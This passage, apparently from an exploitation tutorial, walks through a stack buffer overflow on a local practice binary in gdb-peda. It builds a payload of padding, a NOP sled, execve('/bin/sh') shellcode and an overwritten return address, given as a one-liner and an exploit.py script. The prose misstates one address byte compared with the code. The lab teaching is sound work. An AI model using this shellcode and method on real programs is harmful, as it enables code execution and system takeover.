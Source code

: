 ```bash
gdb-peda$ r $(python -c 'print ("\x41" * (272 - 64 - 25 - 4) + "\x90" * 64 + "\x44" * 25 + "\x42" * 4)')
```

But firstly, let us have a look at the whole main function. Because if we execute it now, the program will crash without giving us the possibility to follow what happens in the memory. So, let's go to set breakpoint at the `overflow` function firstly:     
```bash
gdb-peda$ b overflow
```

![overflow 9](/assets/images/15/2021-10-20_15-31.png){:class="img-responsive"}          

Then, we can run:
```bash
gdb-peda$ r $(python -c 'print ("\x41" * (272 - 64 - 25 - 4) + "\x90" * 64 + "\x44" * 25 + "\x42" * 4)')
```
![overflow 10](/assets/images/15/2021-10-20_15-40.png){:class="img-responsive"}      

And then we will look for the place where our NOPs start and end:
```bash
gdb-peda$ x/1000xb $esp + 500
```
![overflow 11](/assets/images/15/2021-10-20_15-55.png){:class="img-responsive"}    

Here, we now have to choose an address to which we refer the `eip` and which reads and executes one byte after the other starting at this address:

![overflow schema 2](/assets/images/15/bo-2.png){:class="img-responsive"}    

In this example, we take the address `0xffffd3f4`:                     

![overflow 11](/assets/images/15/2021-10-20_16-02.png){:class="img-responsive"}    

After selecting memory, we replace our `\x42\x42\x42\x42` with `\xf4\xd4\xff\xff` (input of the address is entered backward!):        
```bash
./vuln $(python -c 'print "\x41" * (272-64-25-4) + "\x90" * 64 + "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80" + "\xf4\xd3\xff\xff"')
```

or via python script (`exploit.py`):
```python
#!/usr/bin/python
# exploit.py - final payload with spawn /bin/sh shellcode
shellcode = "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80"
padding = "\x41" * (272-64-len(shellcode)-4)
nop = "\x90" * 64
eip = "\xf4\xd3\xff\xff"
print padding + nop + shellcode + eip
```
